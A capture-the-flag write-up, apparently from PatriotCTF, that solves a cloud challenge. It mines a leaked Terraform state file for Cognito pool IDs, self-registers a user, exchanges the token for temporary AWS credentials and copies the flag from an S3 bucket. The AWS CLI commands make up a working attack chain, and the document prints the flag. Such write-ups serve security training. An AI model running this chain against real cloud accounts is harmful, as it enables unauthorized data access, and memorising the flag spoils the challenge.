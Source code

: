 **Title**: Make It Rain  
**Category**: Misc

---

## **Problem Statement**

We built secure vault to store our secret flag but somehow got the blueprint of the vault leaked. Can you help us to retrieve the secret flag from the vault?

`Author: _jungbahadurrana`

Attachment:
- [terraform.tfstate](files/terraform.tfstate)
 
---

## **Solution**

In this challenge, we are given a Terraform state file `.tfstate` file. A `.tfstate` file is created on running terraform apply and contains current state of Terraform-managed infrastructure for tracking changes. On analyzing the file I found some useful information like Cognito Identity Pool, IAM roles, S3 bucket etc. 

The region `us-east-1` is specified in the Identity Pool. Let's configure AWS CLI with this region. For now, leave other fields empty.

```sh
aws configure
```

Now we will use this Cognito User Pool to sign up as a user. Using the `client_id` (`4bjmgsip08ah118ugkau5p946b`) will create a user in their user pool.

```sh
aws cognito-idp sign-up --client-id 4bjmgsip08ah118ugkau5p946b --username <your-username> --password <your-password> --user-attributes Name=email,Value=<your-email>
```

Next, we authenticated the user to get the ID token.

```sh
aws cognito-idp initiate-auth --auth-flow USER_PASSWORD_AUTH --client-id 4bjmgsip08ah118ugkau5p946b --auth-parameters USERNAME=<your-username>,PASSWORD=<your-password>
```

With this ID token, we can made a request to Cognito to obtain temporary AWS credentials using the `provider-name` (`cognito-idp.us-east-1.amazonaws.com/us-east-1_uSid13Z6L`). First, we’ll get the identity ID.

```sh
aws cognito-identity get-id --identity-pool-id us-east-1:b73a3094-c689-47e2-b9c4-311d5b7ee1ee --logins cognito-idp.us-east-1.amazonaws.com/us-east-1_uSid13Z6L=<your-id-token>
```

Then, use this ID to to obtain temporary credentials. 

```sh
aws cognito-identity get-credentials-for-identity --identity-id <identity-id> --logins cognito-idp.us-east-1.amazonaws.com/us-east-1_uSid13Z6L=<your-id-token>
```

This returns `AccessKeyId`, `SecretAccessKey`, and `SessionToken`. These credentials are associated with the IAM role (`CognitoS3Role`) that has permission to access S3 bucket.

Now, we will configure the AWS CLI to use these temporary credentials.

```sh
export AWS_ACCESS_KEY_ID=<your-access-key-id>
export AWS_SECRET_ACCESS_KEY=<your-secret-access-key>
export AWS_SESSION_TOKEN=<your-session-token>
```

With the temporary credentials set, we will now retrieve the `flag.txt` from S3 bucket.

```sh
aws s3 cp s3://patriot-ctf-cloud-ctf-challenge/flag.txt .
```

So, our final flag is `PCTF{G14d_th4T_y0u_tR13d!}`.
